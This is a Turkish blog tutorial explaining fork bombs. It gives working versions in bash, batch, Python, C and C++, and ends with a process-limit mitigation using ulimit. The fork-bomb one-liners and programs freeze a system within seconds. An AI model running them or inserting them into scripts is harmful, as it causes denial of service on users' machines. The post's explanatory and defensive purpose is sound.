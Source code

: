 ```yaml
---
title: "Fork Bomb Nedir?"
date: "23 Kasım, 2022"
excerpt: "Fork Bomb, bir işletim sistemindeki işlemciyi yormak için kullanılan bir saldırı yöntemidir. Bu saldırı yöntemi, işletim sistemindeki işlemciyi yormak için bir işlemi sürekli olarak kopyalayarak işlemciyi yormaktadır."
cover_image: "/blog/Fork-Bomb-Nedir/cover.jpg"
author:
  name: "Muhammet Emin Akalan"
  picture: "https://github.com/05akalan57.png"
---
```


Fork Bomb, bir işletim sistemindeki işlemciyi yormak için kullanılan bir saldırı yöntemidir. Bu saldırı yöntemi, işletim sistemindeki işlemciyi yormak için bir işlemi sürekli olarak **kendini kopyalayarak** işlemciyi yormaktadır. Ne kadar güçlü bir işlemciniz olursa olsun sonuç kaçınılmazdır.

## Peki bu saldırı yöntemini nasıl yapabiliriz?

Öncelikle linux işletim sisteminde bir terminal açıyoruz. Ardından aşağıdaki komutu yazıyoruz.

```bash
:(){ :|:& };:
```

Peki saldırı sadece linux işletim sisteminde çalışıyor mu? Hayır, saldırı sadece linux işletim sisteminde değil, windows işletim sisteminde de çalışmaktadır. Aşağıdaki komutu windows işletim sisteminde çalıştırırsanız saldırı başlayacaktır.

```batch
%0|%0
```

Komutu yazıp çalışırken `CTRL + C` tuşuna basıp iptal etme düşünceniz varsa nafile çünkü komuttaki `&` karakteri işlemi arka plana atar. Bu yüzden komutu çalıştırdıktan sonra `CTRL + C` tuşuna basarak iptal edemezsiniz.

> **Uyarı:** Bu komutu çalıştırdıktan sonra işletim sisteminizi kısa bir süre (Yaklasık 5 Saniye) içinde donmasına işlem yapılamaz hale gelmesine sebep olacaktır. Bu yüzden komutu çalıştırmadan önce işletim sisteminizde önemli bir işlem açık olmadığından emin olun.

<video src="/blog/Fork-Bomb-Nedir/incredibles-2.webm" muted autoPlay loop />

## Diğer Programlama Dillerinde Fork Bomb

Yukarda bahsettiğimiz komutlar Linux özelinde **bash** ve Windows özelinde **batch** komutlarıdır.

Peki diğer programlama dillerinde Fork Bomb nasıl yapılır?

### Python

```python
import os

while 1:
  os.fork()
```

### C

```c
#include <unistd.h>

int main() {
  while(1) fork();
}
```

### C++

```cpp
#include <cstdlib>

int main(int argc, char **argv) {
  while (1) system(argv[0]);
  return 0;
}
```

Yazı uzun olmasın diye sadece 3 dilde yazdım. Diğer dillerde de kullanımını merak ediyorsanız [buradan](https://github.com/aaronryank/fork-bomb) inceleyebilirsiniz.

## Peki bu saldırı yöntemini nasıl engelleyebiliriz?

Bu saldırı yöntemini engellemek için işletim sistemindeki bir çok yöntem bulunmaktadır. Bunlardan bir tanesi kullanıcı bazlı işlem limiti ayarlamaktır. Örnek vermek gerekirse Muhammet Emin Akalan kullanıcısının işlem limiti 1000 olarak ayarlanmış olsun. Bu durumda Muhammet Emin Akalan kullanıcısı 1000 işlemi geçtikten sonra yeni bir işlem açamayacaktır. Bu durumda saldırı başladıktan kısa bir süre sonra limit aşıldığı için saldırı duracaktır.

### İşlem Limiti Ayarlamak

İşlem limiti ayarlamak için aşağıdaki komutu kullanabilirsiniz.

```bash
ulimit -u 1000
```

Bu komutu yazdıktan sonra işlem limiti 1000 olarak ayarlanmış olacaktır.
